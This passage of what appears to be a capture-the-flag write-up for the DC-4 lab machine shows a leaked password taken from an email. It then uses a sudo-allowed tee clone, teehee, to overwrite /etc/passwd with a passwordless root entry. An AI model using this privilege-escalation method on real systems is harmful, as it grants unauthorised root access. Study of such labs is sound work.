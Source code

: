 ```
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
- Credentials `charles:^xHhA&hvim0y`

- Attemping `sudo -l` as `jim`
	- `Sorry, user jim may not run sudo on dc-4.`
- Attempting `sudo -l` as `charles`
	- `(root) NOPASSWD: /usr/bin/teehee`

- Dynamic testing of `teehee`
	- We can write to anything as root
```bash
charles@dc-4:~$ sudo /usr/bin/teehee a
hello world
hello world
^C
charles@dc-4:~$ cat a
hello world
charles@dc-4:~$ ls -la
total 28
drwxr-xr-x 2 charles charles 4096 Dec  3 06:55 .
drwxr-xr-x 5 root    root    4096 Apr  7  2019 ..
-rw-r--r-- 1 root    root      12 Dec  3 06:55 a
-rw-r--r-- 1 charles charles  220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 charles charles 3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 charles charles  675 Apr  6  2019 .profile
-rw-r--r-- 1 charles charles    6 Dec  3 06:49 readme.txt
charles@dc-4:~$
```
- The simplist way I can think to abuse this is to copy `/etc/passwd` but remove the `x` for root and then write the `/etc/passwd`
```bash
$ sudo /usr/bin/teehee /etc/passwd
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```